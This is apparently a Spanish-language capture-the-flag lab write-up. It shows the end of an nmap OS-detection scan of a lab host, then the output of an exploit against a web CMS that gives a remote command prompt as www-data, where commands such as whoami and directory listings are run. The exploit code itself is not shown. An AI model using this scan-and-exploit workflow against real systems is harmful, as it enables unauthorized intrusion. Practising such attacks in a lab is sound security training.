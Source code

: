 OS:1ST11NW6%O3=M2301NNT11NW6%O4=M2301ST11NW6%O5=M2301ST11NW6%O6=M2301ST11)W
OS:IN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6
OS:903%O=M2301NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 20.152 days (since Sun Sep 29 17:39:23 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.71 ms ip-10-10-170-216.eu-west-1.compute.internal (10.10.170.216)

NSE: Script Post-scanning.
Initiating NSE at 21:18
Completed NSE at 21:18, 0.00s elapsed
Initiating NSE at 21:18
Completed NSE at 21:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.61 seconds
           Raw packets sent: 1168 (59.286KB) | Rcvd: 1126 (52.486KB)

PRIMERA BANDERA:
root@ip-10-10-49-31:~# http://10.10.170.216/ 
/usr/local/lib/python3.11/dist-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.7) or chardet (5.2.0)/charset_normalizer (2.0.9) doesn't match a supported version!  
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "  
[+]Connecting...  
Enter Command $whoami  
systemwww-data  
  
  
Enter Command $pwd  
system/var/www/html  
  
Enter Command $ls -all  
systemtotal 52  
drwxrwxrwx 4 root root  4096 Jul 26  2019 .  
drwxr-xr-x 3 root root  4096 Jul 26  2019 ..  
-rw-r--r-- 1 root root   163 Jul 26  2019 .htaccess  
-rwxrwxrwx 1 root root  1427 Jul 26  2019 README.md  
drwxrwxrwx 9 root root  4096 Jul 26  2019 assets  
-rwxrwxrwx 1 root root   193 Jul 26  2019 composer.json  
-rwxrwxrwx 1 root root  6502 Jul 26  2019 contributing.md  
drwxrwxrwx 9 root root  4096 Jul 26  2019 fuel  
-rwxrwxrwx 1 root root 11802 Jul 26  2019 index.php  
-rwxrwxrwx 1 root root    30 Jul 26  2019 robots.txt  
  
Enter Command $ls -all /home  
systemtotal 12  
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .  
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..  
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data  
  
